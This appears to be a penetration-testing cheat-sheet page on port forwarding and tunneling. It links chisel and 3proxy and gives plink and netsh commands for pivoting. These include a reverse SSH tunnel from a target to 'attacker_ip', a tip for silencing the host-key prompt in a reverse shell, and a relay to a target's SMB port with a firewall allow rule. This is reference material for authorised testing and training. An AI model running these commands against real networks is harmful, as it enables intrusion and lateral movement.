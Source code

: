 # Port Forwarding & Tunneling

## Tools

* [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
* [https://github.com/3proxy/3proxy](https://github.com/3proxy/3proxy)

## Readings

* [https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
* [https://artkond.com/2017/03/23/pivoting-guide/#ssh-reverse-port-forwarding-w-3proxy](https://artkond.com/2017/03/23/pivoting-guide/#ssh-reverse-port-forwarding-w-3proxy)

## Port Forwarding

### Plink

Source: [http://the.earth.li/\~sgtatham/putty/0.53b/htmldoc/Chapter7.html](http://the.earth.li/\~sgtatham/putty/0.53b/htmldoc/Chapter7.html)

Remote port forwarding, setup from target:

```
plink.exe -ssh -l kali -pw ilak -R attacker_ip:attacker_port:127.0.0.1:target_port attacker_ip
```

{% hint style="info" %}
When doing a first connection to a host, plink will ask whether to cache the host key or not. This step may not be seen in a typical reverse shell.

To avoid the interaction, pipe an "`echo y"`: `cmd /c echo y | plink.exe ...`
{% endhint %}

### Netsh

High privilege shell required.

Local port forwarding, setup from relay:

```
netsh interface portproxy add v4tov4 listenport=8888 listenaddress=relay_ip connectport=445 connectaddress=target_ip

# Configuring corresponding Windows firewall rule
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=relay_ip localport=8888 action=allow
```
